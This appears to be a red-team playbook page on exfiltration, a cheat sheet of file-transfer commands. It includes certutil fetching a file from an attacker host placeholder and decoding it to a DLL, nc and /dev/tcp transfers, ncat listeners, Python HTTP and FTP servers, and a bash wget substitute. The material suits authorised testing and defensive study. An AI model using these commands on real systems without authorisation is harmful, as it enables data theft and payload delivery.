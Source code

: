 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [File Encryption / Decryption](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Encryption--Decryption)
  - [Ncat](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Ncat)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
  - [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)
  - [wget Replacement in Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#wget-Replacement-in-Bash)

### File Transfer

#### Certutil

##### Base64 Encoding

```c
C:\> certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
C:\> certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### File Encryption / Decryption

##### Encryption

```c
$ openssl enc -aes-256-cbc -pbkdf2 < <FILE> > <FILE>.enc
```

##### Decryption

```c
$ openssl enc -d -aes-256-cbc -pbkdf2 < <FILE>.enc > <FILE>
```

#### Ncat

```c
$ ncat --ssl -lnvp <LPORT>
```

#### Python3 HTTP Server

```c
$ pyhton3 -m http.server <LPORT>
```

#### Python SimpleHTTPServer

```c
$ python -m SimpleHTTPServer <LPORT>
```

#### Simple FTP Server

```c
$ python -m pyftpdlib -p 21 --write
```

#### Transfering Files with Bash

```c
$ nc -lnvp <LPORT> < <FILE>
```

```c
$ bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

#### wget Replacement in Bash

Copy the following script directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
